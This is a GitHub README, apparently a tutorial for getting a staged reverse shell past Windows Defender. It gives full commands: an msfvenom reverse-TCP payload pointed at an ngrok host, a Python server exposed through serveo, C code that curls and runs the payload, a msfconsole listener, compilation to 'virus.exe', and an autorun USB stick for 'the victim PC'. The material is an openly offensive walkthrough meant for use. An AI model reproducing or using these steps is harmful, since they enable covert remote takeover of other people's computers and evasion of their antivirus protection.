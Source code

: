 # Bypass-Windows-Defender
Bypass Windows Defender with a staged reverse shells

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code.
   - Create a USB with autorun
##

### Install all requirements on debian
   - Install Ngrok
   ```
  wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
  unzip ngrok-stable-linux-amd64.zip
  sudo mv ngrok /usr/local/bin/
  ```
  - install metasploit framework
  ```
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/ubuntu_install.sh > ubuntu_install.sh
  chmod +x ubuntu_install.sh
  ./ubuntu_install.sh
  ```
  - install gcc
  ```
  sudo apt install gcc-mingw-w64-x86-64
  ```
##

### Install all requirements on Arch Linux
   - Install Ngrok
   ```
  git clone https://aur.archlinux.org/ngrok-bin.git
  cd ngrok-bin
  makepkg -si
  ```
  - metasploit framework
  ```
  sudo pacman -S metasploit
  ```
  - install gcc
  ```
  sudo pacman -S mingw-w64-gcc
  ```

##
### Tutorial for bypass Windows Defender

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/img/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
    python -m http.server 8090
  ```

- Create the serveo key and expose python server using a serveo tunnel
  ```
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

- Create the main.c file and modify the "command" variable with your server
```
   char *command = "curl https://yourServer.serveo.net/payload.bin";
```

<p align="start">
   <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/img/command_variable.png">
</p>

##

- Setting up msfconsole
```
   msfconsole
```
```
   use multi/handler
   ```
```
   set payload windows/x64/shell_reverse_tcp
```
```
   set LHOST <LOCAL IP>
   ```
```
   set LPORT 4444
```
```
   exploit
```

##

- Compile the main.c file for Windows
   - For Windows
   ```
   gcc main.c -o virus -mwindows
   ```
   - For Linux
   ```
   x86_64-w64-mingw32-gcc -o virus.exe main.c -mwindows
   ```

   ## ⚠️ don't forget the -mwindows parameter

## 💾 AutoRun USB
 ## Now, let's create a USB stick that will automatically run the file (autorun)

 - Install the software "USB AutoRun Creator" from this link: "bit.ly/USB-AutoRun-Creator"
 - Follow the installation and open the software
 
  
 <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/img/AutorunCreator.png"/>

 - In the first field enter the path of the previously compiled .exe file, in the second field select your USB drive
 - The Icon and Label fields are optional
 - Click on "Create"

## 

## 😈 Now, remove and reinsert the USB stick
<img align="center" src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/img/metasploit.png"/>

### ⚠️ The files in the USB stick with autorun will never have to be updated, to create the payload again, you will have to start a new TCP tunnel and create a new payload with msfvenom using the same name specified the first time, so that the new payload replaces the old one . Then just start the python server, and then the tunnel with serveo and connect the USB to the victim PC. Happy Hacking ;)
